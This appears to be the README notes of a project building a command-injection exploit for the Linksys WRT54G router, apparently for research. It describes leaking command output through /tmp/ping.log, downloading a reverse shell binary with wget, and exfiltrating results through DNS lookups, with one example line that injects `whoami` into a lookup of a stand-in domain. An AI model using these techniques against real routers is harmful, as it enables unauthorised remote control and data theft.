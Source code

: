 # Exploiting Linksys WRT54G


### Leads for leaking command output
- [x] Look for file paths that are displayed within the web interface that command output can be written to.  
  Using `/tmp/ping.log` to view the output at `/Ping.asp`.
- [x] Use `wget` to download reverse shell binary to the router.
- [ ] Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```


### TODOs
- Use argparse and make the exploit an executable.
- Start the reverse shell server within the exploit itself.


### Wonders & Thoughts
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


[Firmware Download Link](https://www.linksys.com/us/support-article?articleNum=148648)
